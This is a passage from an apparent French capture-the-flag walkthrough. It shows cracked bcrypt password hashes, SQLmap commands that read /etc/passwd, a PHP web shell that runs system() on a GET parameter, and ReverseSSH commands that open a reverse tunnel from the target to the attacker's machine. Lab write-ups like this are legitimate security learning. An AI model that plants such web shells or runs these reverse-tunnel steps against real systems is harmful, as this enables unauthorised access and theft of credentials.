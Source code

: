 Un flag de plus ! Pour le reste les hashs se cassent rapidement :  

```
$2y$12$MaNoQI.ro2vd3Eplh0m.u.Fs/POoCoADcRFCExYhFvX9nSPk6F7Vi:password
$2y$12$RXw2Ye66qe5FtirI/95mFeQMQt2L7jezw9evcA8DEg0QOp3YZE2xq:heather
$2y$12$XyIp48YfHyfF8m6UfeN2nO3kLk.PgnL6Lz/pQolT4rDzsyYHGsSdC:anchor
$2y$12$2jeSR68yBEVqJ88kA16HJ.qgjMy963lXyUY.7AAfKRSCGD1zgK62i:larryjr
```

Avec l'option *--privileges* de SQLmap je peux dumper la liste des droits dont je dispose sur le serveur MySQL et ils sont nombreux puisque l'utilisateur *root* de la DB est utillisé. Je peux ainsi si je le souhaite lire */etc/passwd* avec *--file-read* de SQLmap.  

En revanche impossible de charger */etc/shadow* donc effectivement cette histoire de base de données tournant en root était fausse.  

Father wears his Sunday best
----------------------------

Le dernier fichier présent dans */timeclock/backup/* est un script nommé *browse\_backups.php* et là encore il permet l'exécution de commande.  

Il est tout simple :  

```php
<pre><?php

if(isset($_GET['cmd'])){
        echo "<pre>";
        $cmd = ($_GET['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

Sur le serveur je peux rappatrier un [ReverseSSH](https://github.com/Fahrj/reverse-ssh) pour établir un tunnel avec ma machine :  

```console
$ ./reverse-sshx64 -v -p 4444 192.168.1.47
```

Sur ma machine j'étais à l'écoute :  

```console
$ ./reverse-sshx64 -v -l -p 4444
```

Une fois le tunnel établit il suffit d'utiliser le port SSH local 8888 comme si il s'agissait du serveur SSH de notre victime.  

```console
$ ssh -p 8888 127.0.0.1
```

Le mot de passe attendu (hardcodé dans ReverseSSH) est *letmeinbrudipls* et le nom d'utilisateur n'a pas d'importance.  
